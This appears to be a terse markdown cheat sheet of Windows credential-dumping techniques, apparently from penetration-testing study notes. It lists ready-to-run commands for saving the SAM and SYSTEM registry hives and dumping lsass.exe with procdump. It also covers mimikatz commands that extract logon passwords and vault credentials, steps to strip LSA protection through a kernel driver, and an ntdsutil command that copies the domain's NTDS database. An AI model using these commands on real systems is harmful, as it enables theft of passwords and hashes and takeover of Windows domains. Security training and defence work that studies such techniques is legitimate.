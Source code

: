 
### Security Account Manager (SAM)
- Microsoft DB
  - c:\Windows\System32\config\sam
  - reg save HKLM\sam C:\users\Administrator\Desktop\sam-reg ==>
  - reg save HKLM\system C:\users\Administrator\Desktop\system-reg
  - Volume shadow copy
    - Create volume of drive
      - wmic shadowcopy call create Volume='C:\'
      - vssadmin list shadows
    - extract keys

### Local Security Authority Subsystem Service (LSASS)
- process for security policies
- dump process lsass.exe
- procdump.exe -accepteula -ma lsass.exe c:\Path\To\Target
- mimikatz
  - privilege::debug
  - sekurlsa::logonpasswords
  - Disable LSA protection
    - !+ ==> load mimidrv.sys to disable lsa on kernel
    - !processprotect /process:lsass.exe /remove
- HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Lsa 1 ==> enable

### Windowa Credential Manager
- vaultcmd
  - /list
  - /listproperties:"Property"
  - /listcreds:"Property"
- Tool Get-WebCredentials.ps1

- RunAS
  - run application under different's user permission
  - cmdkey => find stored credentials 
    - /list
    - /list:computername
  - runas /savecred /user:USERNAME

- mimikatz
  - privilege::debug
  - sekurlsa::credman

### Domain Controller
- New Technologie Directory Services (NTDS)
  - Schema: type of objects + relationships
  - Link: attributes + values
  - Type: users + groups
  - C:\Windows\NTDS
- Ntdsutil
  - manage and mantain AD configs
  - restore, maintance, snapshot, set Directory Services Restore Mode
- Local Dumping
  - no credential BUT with Admin access
  - powershell "ntdsutil.exe 'ac i ntds' 'ifm' 'create full c:\temp' q q"
  